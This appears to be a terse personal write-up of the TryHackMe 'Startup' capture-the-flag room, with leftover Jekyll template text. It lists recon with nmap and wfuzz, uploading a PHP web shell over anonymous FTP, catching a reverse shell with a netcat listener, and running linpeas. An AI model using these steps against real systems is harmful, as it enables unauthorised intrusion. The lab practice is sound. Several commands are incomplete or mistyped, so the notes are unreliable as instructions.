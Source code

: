 ```yaml
---
layout: post
title: Startup | Tryhackme
date: 2021-11-05
description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
img: startup/logo.png  # Add image post (optional)
tags: [] # add tag
---
```




Let's start....


ip add to hosts 

> sudo leafpad /etc/hosts
> 
> sudo nmap -sC -sV 

wfuzz -w /usr/share/SecLists/discovery/Webcontents/raft-large-directories.txt -u http://startup/FUZZ

> ftp startup.thm
> get 
> get 

phpshell.php

> put phpshell.php

 Check the ip addr
 
nc -lvnp 33456

> ls -la
> stty raw -echo 
> import TERM=xterm

upload linpease.sh file  




